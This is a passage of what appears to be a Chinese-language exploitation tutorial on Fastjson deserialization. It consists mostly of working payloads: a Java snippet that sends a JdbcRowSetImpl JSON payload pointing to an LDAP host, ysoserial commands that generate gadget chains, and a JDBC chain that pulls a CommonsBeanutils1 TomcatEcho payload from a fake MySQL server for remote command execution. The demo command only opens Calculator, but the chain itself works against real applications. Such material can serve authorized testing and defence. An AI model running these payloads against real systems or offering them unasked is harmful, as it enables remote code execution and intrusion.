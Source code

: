 
使用以下代码，就可以直接命令执行：(命令为打开计算器，需要搭建JNDIExploit)

    
    
    import com.alibaba.fastjson.JSON;  
    public class test {    
        public static void main(String[] args){  
          
     String jsonStr = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://x.x.x.x:1389/Deserialization/CommonsBeanutils1/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==\", \"autoCommit\":true}\n";    
     JSON.parseObject(jsonStr);  
     }  
    }  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133336.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133339.png)

# 0x03 工具用法

fastjson环境搭建完毕，了解一下fakeMySQL与ysoserial用法

## 0x001 fakeMySQL用法

https://github.com/fnmsd/MySQL_Fake_Server

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133341.png)

得到两点关键信息

  1. 配置文件进行预定义
  2. 用yso_开头的用户名，配合payload类型、命令 这里我进行了配置，配置文件放在末尾附件中

## 0x002 ysoserial用法(ysuserial)

https://github.com/su18/ysoserial

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133343.png)

    
    
    java -jar ysuserial-0.9-su18-all.jar -g CommonsCollections1 -p 'open -a Calculator.app'  
    

-g后面加上payload类型，-p为命令的参数或者为拓展的功能

# 0x04 工具联动

这里需要去调用yso的命令，所以根据之前工具的用法可以传入`yso_-g CommonsBeanutils1_-p EX-TomcatEcho`

根据以上，可以使用JDBC链，payload如下：

    
    
    {"x":{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo":3308,"info":{"user":"yso_-g CommonsBeanutils1_-p EX-TomcatEcho","password":"ubuntu","useSSL":"false","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"},"databaseToConnectTo":"mysql","url":""}}  
    
